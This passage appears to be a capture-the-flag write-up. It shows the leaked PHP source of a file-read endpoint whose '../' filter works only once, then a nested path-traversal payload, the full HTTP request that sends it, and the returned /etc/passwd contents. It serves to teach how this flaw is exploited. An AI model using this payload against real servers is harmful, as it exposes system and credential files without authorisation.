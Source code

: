 Success! The source code is returned:

```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Sun, 16 Dec 2018 02:50:07 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 577



{"file":"<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\")
{\n\t$fileContent['file'] = false;
\n\theader('Content-Type: application\/json');
\n\tif(isset($_POST['file']))
{\n\t\theader('Content-Type: application\/json');
\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);
\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){
\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");
\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  
\n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n"}
```

We see that the validation on path is using `str_replace`:

```php
$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);
```

The validation is removing occurences of `../` and `..\` but not recursively. If we pass `file` as `..././..././..././etc/passwd` 
and occurrences of `../` are removed we are left with `../../../etc/passwd`. Let's test it out:

```
POST /fileRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-type: application/x-www-form-urlencoded
Content-Length: 33
Connection: close

file=..././..././..././etc/passwd
```

And we receive the `/etc/passwd` contents:

```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Sun, 16 Dec 2018 02:58:17 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 1443

{"file":"root:x:0:0:root:\/root:\/bin\/ash\n
bin:x:1:1:bin:\/bin:\/sbin\/nologin\n
daemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\n
adm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\n
lp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\n
sync:x:5:0:sync:\/sbin:\/bin\/sync\n
shutdown:x:6:0:shutdown:\/sbin:\/sbin\/shutdown\n
```
